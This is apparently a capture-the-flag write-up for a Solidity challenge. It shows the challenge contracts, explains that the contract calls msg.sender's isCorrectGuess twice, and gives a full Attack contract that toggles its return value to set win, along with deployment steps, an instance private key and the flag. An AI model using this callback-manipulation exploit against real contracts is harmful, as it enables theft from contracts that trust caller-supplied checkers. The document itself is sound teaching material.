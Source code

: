 ### setup.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./Chal.sol";
contract Setup {
    Challenge public immutable instance;
    constructor() payable {
        instance = new Challenge();
    }
    function isSolved() public view returns (bool) {
        return instance.win();
    }
}
```

### Chall.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
interface Checker {
    function isCorrectGuess(uint256) external returns (bool);
}
contract Challenge {
    bool public win;
    uint256 public guess;
    function makeAGuess(uint256 _guess) public {
        Checker checker = Checker(msg.sender);
        if (!checker.isCorrectGuess(_guess)) {
            guess = _guess;
            win = checker.isCorrectGuess(guess);
        }
    }
}
```

we got a server which will manage instace for our challenge at by generating a secret from `get_ticket.py` 
`nc blockchain.bbctf.fluxus.co.in 5001`

![[./images/instance_server.png]]
launch a instance and you will get 
``` python
uuid = "5759cffc-c638-451e-b41b-b8a15469ad49"
rpc_endpoint = "http://chal.bbctf.fluxus.co.in:8545/5759cffc-c638-451e-b41b-b8a15469ad49"
privatekey = "0xa9622978b37457dc8d5bb76996c8a166bc04fe8db0907dcba98ee7d7f4009f35"
youraddress = "0x5f20EdbCAa04777a636fF9564Ea9a96bA82af5A4"
setupcontract = "0x9C7fF8BCF007AA7041346f1c68C149b1469eA983"
```
## Ananlysis
- In `setup.sol` if you call `instance` it will return the address of the chall contract.
- `chall.sol` has wierd behaviour frist it will check wetather checker isCorrectGuess(_guess_) is `false` and to win next step it should be `true`.
-  `msg.sender` is address of sender so definatly we have to make a exploit contract.
- we have somthing called interface which we will get back to it later.
## Failed steps
## Research
I don't know much about solidity so i started learning how interface works.
[Contracts — Solidity 0.8.17 documentation (soliditylang.org)](https://docs.soliditylang.org/en/v0.8.17/contracts.html#interfaces)
https://www.youtube.com/watch?v=tbjyc-VQaQo
https://www.youtube.com/watch?v=hzH6fgKhSMg
Here is quick summary
- You can use contract address to directly talk with the contract insted of importing or adding its code to our contact.
- In this challange we have to specify the address of the interface contract with `msg.sender`.

## Exploit planning

we have to make a new contract which will call `makeAGuess` in `chall.sol` due to that  `isCorrectGuess`  in same contract should be called which initially returns `false` and in next call it should return `true`.

### exploit.sol
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
import "./Chal.sol";
contract Attack{
    bool public retBool = true;
    Challenge public target;
    constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
    function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
    function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
}
```
ok! it overwelming let's see it line by line
```solidity
import "./Chal.sol";
```
refrence with `setup.sol` we can get a instance of challange 

lets see `Attack` contract line by line.
```solidity
Challenge public target;
bool public retBool = true;
```
here we are making a object of `Challenge` class so that we can call `makeAGuess`.
next a toggler to return bool value
```solidity
 constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
```
`target = Challenge(_targetAddress);` will create a reference to the contract `Challenge`. Doing so allows you to call public functions of that contract. Now you can call `target.whateverFunctionItHas()` which will call the function on the contract at the address.
```solidity
function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
```
this function when called frist time returns `false` and next time return `true`
```solidity
function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
```
this function initaits our attack by calling `target.makeAGuess(_guess)`->`!checker.isCorrectGuess(_guess)` ->`checker.isCorrectGuess(_guess)`-> win is True now

## Exploit!!!

![[./images/setting_rpc.png]]
Add ur PRC Url and ChainId
![[./images/import_Account.png]]
import your account to metamask
![[./images/got_account.png]]
now open Remix connect it with your wallet and account. intracct with deployed setup contract by passting its address to AtAddress input box with `setup_contract` address by opening `setup.sol`
now you will get address of challenge.
![[./images/setup_contract.png]]
now add Challenge contract which you can have to intract.
![[./images/chall_contract.png]]
now lets deploy attack contract by giving address which we got from instance in setup.
![[./images/attack_contract.png]]
just give some value to guessIt and call get the flag by connecting to server and clicking on get flag with ur team_secret 
![[./images/instance_server.png]]
FLAG:
	```flag{A1l_17s_r3quirED_is_a_1iI7lE_5oliDity}```
That's how we got second blood and only 2 teams solved it.i learned so much while solving this challenge but i got deep understanding after writing this writeup.